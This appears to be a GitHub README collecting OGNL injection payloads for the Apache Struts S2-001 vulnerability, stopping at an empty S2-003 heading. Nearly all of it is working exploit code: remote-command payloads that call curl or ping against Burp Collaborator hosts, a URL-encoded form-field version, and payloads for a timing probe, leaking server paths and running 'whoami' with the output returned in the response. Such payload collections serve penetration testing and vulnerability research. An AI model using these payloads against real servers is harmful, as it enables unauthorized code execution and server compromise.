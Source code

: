 # struts-vuln

## s2-001:
##### Minimal payload:
```
%{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```
- url encoded:
``` 
username=%25{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```

- Output: `java.lang.UNIXProcess@58f17c3c`


##### Alternative payloads:
 - Using `java.lang.ProcessBuilder`: to execute command
```
%{(new java.lang.ProcessBuilder(new java.lang.String []{"ping","yz1h62j86v3zxqvq1xl5g967iyoocd.burpcollaborator.net"})).start()}
```

- Sleep payload ?:
```
%{@java.lang.Thread@sleep(10000)}
```
- Get the tomcat path:
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
- Get the web site real path:
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
- RCE with output in response:
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```


## s2-003:
